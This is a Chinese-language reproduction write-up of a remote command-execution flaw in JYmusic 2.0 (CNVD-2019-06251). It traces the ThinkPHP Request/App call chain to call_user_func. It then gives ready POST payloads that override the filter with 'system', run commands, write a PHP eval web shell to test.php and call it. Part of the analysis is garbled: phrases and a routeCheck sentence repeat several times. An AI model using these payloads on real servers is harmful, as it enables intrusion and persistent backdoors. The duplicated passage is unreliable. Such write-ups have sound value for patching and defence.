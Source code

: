 （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞
===========================================

一、漏洞简介
------------

CNVD-2019-06251

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call\_user\_func函数。

![](resource/JYmusic2.0命令执行漏洞/media/rId26.png)

通过构造使得\$filter=system， \$value=dir
，通过call\_user\_func函数即可执行系统命令" dir "。

#### array\_walk\_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array\_walk\_recursive函数调用了filterValue函数。array\_walk\_recursive()
函数对数组中的每个元素应用用户自定义函数。

![](resource/JYmusic2.0命令执行漏洞/media/rId28.png)

![](resource/JYmusic2.0命令执行漏洞/media/rId29.jpg)

#### input函数

/core/library/think/Request.php中的param函数调用了input函数。

![](resource/JYmusic2.0命令执行漏洞/media/rId31.jpg)

![](resource/JYmusic2.0命令执行漏洞/media/rId32.jpg)

#### exec 函数

/core/library/think/App.php类中的exec
函数通过Request::instance()-\>param()调用了param函数。

![](resource/JYmusic2.0命令执行漏洞/media/rId34.jpg)

#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数

![](resource/JYmusic2.0命令执行漏洞/media/rId36.jpg)

传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：

![](resource/JYmusic2.0命令执行漏洞/media/rId37.jpg)

![](resource/JYmusic2.0命令执行漏洞/media/rId38.jpg)

#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request-\>method()调用了method函数。

/core/library/think/Request.php类中，通过post参数\_method=\_\_construct调用构造函数：

![](resource/JYmusic2.0命令执行漏洞/media/rId40.png)

在构造函数里用filter=system覆盖类中的filter变量。

![](resource/JYmusic2.0命令执行漏洞/media/rId41.png)

post参数 method=GET
就是要再次调用method函数，并且使得if(true===\$method)为真，从而获取
\_SERVER\[REQUEST\_METHOD\]=dir 这个参数值。

![](resource/JYmusic2.0命令执行漏洞/media/rId42.jpg)

#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：

![](resource/JYmusic2.0命令执行漏洞/media/rId47.png)

POST的参数的作用已在漏洞分析环节分析。
filter=system&\_SERVER\[REQUEST\_METHOD\]=dir&\_method=\_\_construct&method=GET
POST参数后不能有\\r\\n回车换行，如果有就不能成功执行。 POST /captcha
HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell

![](resource/JYmusic2.0命令执行漏洞/media/rId49.png)

    filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET

#### phpinfo()

![](resource/JYmusic2.0命令执行漏洞/media/rId51.png)

    http://0-sec.org/test.php?test=phpinfo(); 

    //末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。

四、参考链接
------------

> <https://blog.csdn.net/yun2diao/article/details/91345116>
